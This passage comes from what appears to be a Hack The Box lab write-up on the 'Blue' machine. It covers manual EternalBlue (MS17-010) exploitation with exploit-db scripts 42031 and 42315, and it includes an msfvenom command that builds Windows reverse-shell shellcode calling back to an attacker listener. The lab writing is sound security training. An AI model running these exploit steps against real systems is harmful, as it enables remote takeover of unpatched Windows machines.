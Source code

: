 ```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ python2 get-pip.py
...[snip]...
Successfully installed pip-20.3.4 wheel-0.36.2
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ /home/mac/.local/bin/pip2.7 install impacket
...[snip]...
```

This fixed our issues, and we could now run our script:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=10.10.14.2 LPORT=9001 > shellcode
...[snip]...
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ python2 42031.py 10.10.10.40 shellcode
```

As I said, the script didn't end up working - but these debugging steps were useful to learn. [This thread](https://forum.hackthebox.eu/discussion/4061/need-help-with-manual-py-exploit-cant-concat-str-to-bytes) on the HTB forum was extremely useful.

## Working Exploit - 42315

I followed [this excellent tutorial](https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/) on exploiting Eternal Blue manually. It used a different exploit, `windows/remote/42315.py`.

First, mirror the exploit:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ searchsploit -m windows/remote/42315.py
```

The exploit requires providing a working username. When I first tried the box I went with `null`, as I had used it to login before.

I tried the exploit multiple times before realising this was incorrect - in fact, earlier enumeration exposed that `guest` was the correct username to login with. I set this in the code:

![](/assets/images/blogs/Pasted image 20210501185951.png)

After setting the username, I downloaded `mysmb`, a required package:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

Then I ran a scan for named pipes on the box. These allow processes to communicate and specifying one is a crucial step of the exploit:
